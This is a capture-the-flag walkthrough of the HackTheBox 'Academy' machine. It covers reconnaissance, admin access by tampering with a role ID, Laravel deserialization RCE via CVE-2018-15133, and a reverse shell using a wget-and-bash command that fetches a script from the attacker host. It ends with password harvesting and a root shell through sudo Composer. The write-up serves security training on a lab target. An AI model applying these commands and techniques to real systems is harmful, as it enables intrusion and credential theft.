
Academy is an easy rated machine created by egre55 and mrb3n. The box was fun and had an interesting foothold which involved the registration process of the hosted website which provided us access to an admin panel. This leads to another virtually hosted website which leaked some critical information about an installed PHP framework which was vulnerable to remote code execution. The box was particularly easy but the foothold would have been a little challenging to find if you are not passing your traffic through Burp Suite or another HTTP proxy to analyze web traffic.
Overview of the Target
- Operating System: Linux
- IP address: 10.10.10.215
- Difficulty: Easy
Scanning and Reconnaissance
As usual we start off with a port scan to check what ports are open and what services are running. For the initial port scan we will be using the tool nmap which will provide us with a list of open ports. The command we will use for this is stated below.
sudo nmap -p- -oN nmap/Academy-open 10.10.10.215
- -p-: scan all ports from 1 to 65535.
- -oN nmap/Academy-open: save the output to the file "Academy-open" in the nmap directory.
Running this command gives the below output.
From the initial scan we can see that the machine has three open ports- port 22 running SSH, port 80 running http, and port 33060 running the service "mysqlx". From this initial scan we know that the machine is running a web server (which we will prod into first) and also an instance of MySQL which is a database management software. After a quick search on the interwebs on port 33060 (since the default port for the MySQL protocol was port 3306) I found this site which explained that port 33060 was used by the "X protocol" which was like an extended version of MySQL protocol. You can read more of that in this article. Now that we know what ports are open, let's scan them further to get more information about the services they are running using the below command.
sudo nmap -sC -sV -p 22,80,33060 -oN nmap/Academy-fullscan 10.10.10.215
- -sC: perform script scans using default NSE scripts
- -sV: enable version detection
- -p 22,80,33060: scan only ports 22,80,and 33060.
- -oN nmap/Academy-fullscan: write output to the file "Academy-fullscan" located in the nmap directory
From the above output we can obtain some really interesting information regarding our target.
- Port 22 (SSH): The SSH program version installed is OpenSSH 8.2p1 Ubuntu 4ubuntu0.1. Since we know the exact version of the installed SSH package we can use this to search for exploits or gain information about the system, like which version of Ubuntu was this package released into and when was it last updated. Using this information we can safely assume that our target is running Ubuntu 20.04 (Focal Fossa).
- Port 80 (http): The web server software is Apache 2.4.41 (which once again was uploaded to Ubuntu Focal). The most interesting piece of information here is the output of the script "http-title" which tells us that the script was unable to get the title of the web page because it could not follow the redirect to http://academy.htb. This means that the website (http://10.10.10.215) is redirecting to the mentioned site and it fails since we have no DNS entry pointing to it.
- Port 33060 (mysqlx): nmap was unable to find any matching version and the service is mentioned as "mysqlx?" which means that it is uncertain about its finding.
Enumeration of the web server
Before visiting the website I setup an HTTP proxy using Burp Suite (with intercept off), this way all the traffic to and from the web server can be captured to be analyzed later. Visiting the website we are automatically redirected to the URL http://academy.htb and displayed an error page since we don't have any DNS entry that points to academy.htb. This can be easily overcome by adding a DNS entry pointing academy.htb to its IP address in the hosts file.

Upon visiting the website again we are served with the below shown website. We see a login and register function is available in the top right of the page. Before testing out these features I inspected the source code of the web page to check for any hints that might be available (for example, comments left out by the developers, interesting links, CMS information etc.) but found nothing.

Again before testing out the login or register functions of the website I decided to run a directory brute-force against the website to find out any interesting files or directories. To do this I utilized the tool gobuster as follows.
sudo gobuster -w path/to/wordlist -x php,html,txt -u http://academy.htb
- -w: path to the wordlist.
- -x: file extensions to search for.
- -u: target URL
From the above output we were able to find three new web pages- home.php, admin.php, and config.php. The first page redirects you to the login page (login.php) and the config.php page was empty. However, admin.php led us to a login page that was similar to the login page at login.php. This could mean that administrative users were able to login to access "something different" than using login.php. Before attempting to register a new account I used a combination of common credentials (admin:admin, administrator:administrator, admin:password etc.) against login.php and failed to authenticate. Since nmap showed a MySQL port I attempted a few basic SQL injection against the login page again to no avail.
Since we didn't possess any valid credentials (at least a known username) and all our common passwords and SQL injection attempts failed our next option was to try registering a new account. Visiting the register.php we are provided with a form which I filled as follows to register a new account.
Upon registering we are redirected to a registration successful page and then to the login page again. After entering the credentials we used to register the new account we are able to log in to the web site. The web site seems to be some sort of educational website for hacking/pentesting much like the real HackTheBox Academy.
The website does not provide much information for progress other than the username egre55 which apparently is the user that the website tells we have logged in as. None of the links, academic modules, purchase links lead us anywhere and the registered credentials were not accepted when tried out against the admin.php page. I registered another account and logged in again to confirm if the name egre55 is hard-coded into the website, which it was. After scouring the website for any additional information (checking source codes etc.) and trying various common passwords and guesses against the username egre55 against the login page and the administrative login to no avail, I finally decided to check Burp Suite whether if anything interesting was being sent along with the traffic. Spoiler alert, it did.
While going through the captured traffic in Burp Suite we find something interesting in the account registration request that was sent to the web server. In the request, we see that a parameter called roleid is sent and that it is set to zero by default. This is quite interesting as this was probably what determined the privilege of the users that were registered and by playing with this value we could potentially elevate our privileges and gain access to something that we couldn't (admin.php perhaps?).
After sending the request to the repeater tool in Burp Suite and modifying the username to testuser01 and the roleid to 1, we receive a 302 redirect response which indicates that the account was successfully created.
After creating the new account (testuser01) I immediately tried logging into the administrator login page. The authentication was successful and we were displayed a web page title "Academy Launch Planner". The website looks like a to-do list and had some interesting information for us (note the student and admin role entry). First, it showed us two potential usernames, cry0l1t3 and mrb3n and also in the final entry (which is still at pending) shows us another domain name: dev-staging-01.academy.htb. This means that there probably is another website hosted on the system using virtual hosting.
Before visiting the new website at dev-staging-01.academy.htb we need to add a DNS record of it at the hosts file as follows.
Upon visiting the website we are displayed with an error message saying "Unexpected Value Exception" and a description of the error as "The stream or file '/var/www/html/htb-academy-dev-01/storage/logs/laravel.log' could not be opened in append mode: failed to open stream: Permission denied". The website seems to be some sort of error logging web framework but it doesn't specify which framework it actually is. However, there are some really interesting back-end information we can gain from this page.
The word "Monolog" was displayed a lot on this page (almost in every directory path mentioned) so I decided to Google on what Monolog actually was. After reading this article I learnt that it was a logging library for PHP frameworks like Laravel and Symfony. From the error message we can confirm that the system is installed with the Laravel PHP framework. Scrolling down the website we can confirm that the PHP framework installed is indeed Laravel and we also find some database credentials for a MySQL server.
After failing to connect to the MySQL server with the given credentials (tried out the credentials for the usernames egre55, cry0lit3, and mrb3n as well), I decided to search for vulnerabilities in Laravel and Monolog. This was when I found out an interesting vulnerability in Laravel explained under CVE-2018-15133.
The CVE mentions that Laravel is vulnerable to a deserialization attack that could lead to remote code execution by passing modified data in the X-XSRF-TOKEN field in the HTTP header. For this attack the attacker should posses the application key (which is mentioned in the web page) and use this to encrypt the payload that will be passed to the X-XSRF-TOKEN field. This article provided an in-depth analysis of the vulnerability by explaining the insecure functions in the source code. Ståle Pettersen aka kozmic (who discovered this cool vulnerability) had a proof of concept exploit hosted at his GitHub repository here.
Exploiting Laravel PHP Framework using CVE-2018-15133
After cloning the exploit to our attacking machine we can try it out to check if this vulnerability can actually be exploited (since only versions 5.5.40 and 5.6.x through 5.6.29 are actually vulnerable and we do not know the version of Laravel installed). Before trying out the exploit make sure that you have the PHPGGC library installed from here. After installing PHPGGC, we created a payload for the command uname -a and ran the exploit with the application key to generate the X-XSRF-TOKEN value.
After generating the token value send a POST request to http://dev-staging-01.academy.htb and specify the header value for the X-XSRF-TOKEN. From the response of the curl command we can see that the command has been executed and this confirms that the version of Laravel installed is vulnerable to this exploit. The next step is to obtain a reverse shell.
After trying out some common reverse shell payloads and not being able to get a connection, I decided to change the way for the payload to be executed. In the attacking machine I created a simple Bash script (shown below) with a reverse shell one liner and started a HTTP server to transfer it into the victim.
Next, use PHPGGC to generate the encoded payload to execute the commands cd /tmp && wget http://10.10.14.45:8000/shell.sh && bash shell.sh. This command will change the working directory to the /tmp folder, to which we have write access, download the script from the attack machine and execute it. After generating the encoded payload from PHPGGC use the exploit code along with the application key to generate the X-XSRF-TOKEN value.
Before sending the POST request with curl start a netcat listener on the mentioned port in the script. Once the POST request is sent you will see a connection received message on the netcat listener.
Enumerating Target System
After gaining access to the system via the reverse shell we can now try further enumeration of the system to elevate our privileges. From the below commands we can see that we have access to the system as user www-data, which is the default user that is used by web servers such as Apache.
A good starting point for enumeration is the web server's root directory. This directory is likely to have interesting configuration files that will provide us more information or even credentials if we are lucky. But before that, let's check what users are on the machine to gain a better idea on what to look for. From the below output of the passwd file we find that there are six users on the system: egre55, mrb3n, cry0l1t3, 21y4d, ch4p, and g0blin.
After traversing to the /home directory and listing out the home directories of the users we see that we have read and execute permissions on them. This means that we have the ability to traverse into the directories and list or read the files within them.
The home directories of users 21y4d, ch4p, mrb3n, and g0blin did not contain any information that would help us escalate our privileges but the directories of users cry0l1t3 and egre55 had some interesting pieces. The user cry0l1t3 possessed the user flag (unreadable with current privileges) and user egre55 had a .sudo_as_admin_successful file in his directory, which means that it is possible that he has sudo privileges.
With that in mind, I decided to look into the web server root directory by changing the working directory into /var/www/html. Within the directory we find two directories, academy and htb-academy-dev-01, for us to look into. Web directories can usally contain important information within configuration files (what software is installed, where are connections being made etc.) and may even have sensitive information such as, plaintext passwords, usernames, and password hashes. To check for any potential passwords and usernames we can use the grep command to match strings. Using the below grep commands I searched recursively for lines that contain the string "password".
grep -iR password > /tmp/academy-grep-passwd.txt
- -i: Ignore case distinctions in patterns and input data, so that characters that differ only in case match each other.
- -R: Read all files under each directory, recursively.
- < /path/to/file: Redirect output to mentioned file
After running this command and going through the output file we find what seems to be a database password set as mySup3rP4s5w0rd!!. This password was found in a hidden file called .env inside the academy directory. According to Laravel documentation, the env file contains configuration values for the application and other services that are to be used by the application. In this env file we find credentials to a MySQL database with the username dev.

Finding these credentials weren't fruitful at all since all attempts to log in to the database was met with an access denied error. After using the grep command to match usernames we know, we were able to find the another set of credentials. This was found after using the grep command to match the username "root" recursively through the web directories. The credentials were found within the config.php file located in the 'public' subdirectory under the 'academy' web directory.
Gaining access to the MySQL Database
With the credentials gained above, we were able to gain access to database. Within it, we find the 'academy' database and in it we find a table called 'users' which contained the user names and MD5 hashes of their passwords. While all these hashes, save for the 'dev' user's, could be successfully cracked, they didn't prove to be useful in elevating our privileges or further exploitation.(The passwords were the same as the usernames except for tester's whose password was 'test').
Elevating Privileges by Reusing Passwords
Since we had a list of users and a few passwords (including the hashes from the database), gathered during enumeration I tried out using them against each other to gain access via SSH. Using this method, we were able to successfully log in to the system using the cry0l1t3:mySup3rP4s5w0rd!! username-password combination.
Within cry0l1t3's home directory we find the user flag. The next step was to enumerate further as cry0lit3. As starters we checked what level of access does cry0l1t3 have? Is he a sudo user? what's readable in other users' home directories? what sensitive files can be read and write? etc..
After a while of not finding anything, we find out using that the user cry0l1t3 is part of the adm group. This was confirmed using the id command which was one of the first commands used during enumeration, but I missed it. Noticing this earlier would have saved quite some time.
The adm group is used for system monitoring task and has read many log files in the /var/log/ directory. This was an interesting find, logs are known to contain sensitive information such as log-in attempts recorded in them. Using this idea we decided to try grepping around the /var/log directory for interesting keywords like, 'password','username', and usernames but it was a bit tedious going through the outputs so we tried running some scripts that would make do some work for us while we go through the logs. The scripts that we used were the LinPeas and LinEnum scripts. These are handy automation scripts that will automate the process of finding privilege escalation points and system information. They need to be run locally, and so we transferred them to the target using a simple HTTP server.
After transferring them we added execution permissions to the scripts, ran them and wrote the output to separate files to make things easier.
After finding nothing of specific interest in the filtered logs we got using grep, we turned our attention to the scripts we used before. Both scripts had generated a lot of information about the whole system but linPEAS had something interesting for us. It had found a TTY log entry of a password used when a user had tried to su into mrb3n's account. The password used was mrb3n_Ac@d3my!. Note the hexadecimal encoded string found in the log entry of /var/log/audit/audit.log.3 log file. This is the hex encoded input entered by the user when using the su command. This type of logging is achieved when pam_tty_audit PAM (Pluggable Authentication Modules) module is enabled to audit TTY input of users.
Gaining Root by Abusing Sudo Privileges
Using the password gained from the log files we could successfully login as user mrb3n. After gaining access as another user the next step was to check what level of access do they have and try enumerating the system with it. First, we found that mrb3n is not part of any special group unlike cry0l1t3.
Next, we found out that mrb3n had permissions to run a specific command as the super user. This command was /usr/bin/composer, which executed a PHP script called composer.
After a quick Google search we learnt that Composer is dependency manager for PHP and there are a few privilege escalation exploits that include abusing permissions. GTFObins has an entry that explains how to exploit composer in different situations. We will be using the second method which explains how to gain root access if the script is run as superuser.
The exploitation method needs us to create the composer.json file that includes the scripts property which can be used to execute commands via Composer. The script is defined under "x" which calls for a shell upon execution. Since the user mrb3n can run Composer as root, this scrip will also be executed with root privileges and provide us with a root shell.
After running composer as sudo and running the script as mentioned we get a Bash shell as the root user. Notice, how Composer warns against running at as the superuser.
Within the root user's home directory, /root, the user flag and an additional text file called academy.txt can be found.
The academy.txt file is an invitation for you to check out HackTheBox's Academy website where you can train and learn more about hacking. It is a fun and interactive platform that you should definitely check out.
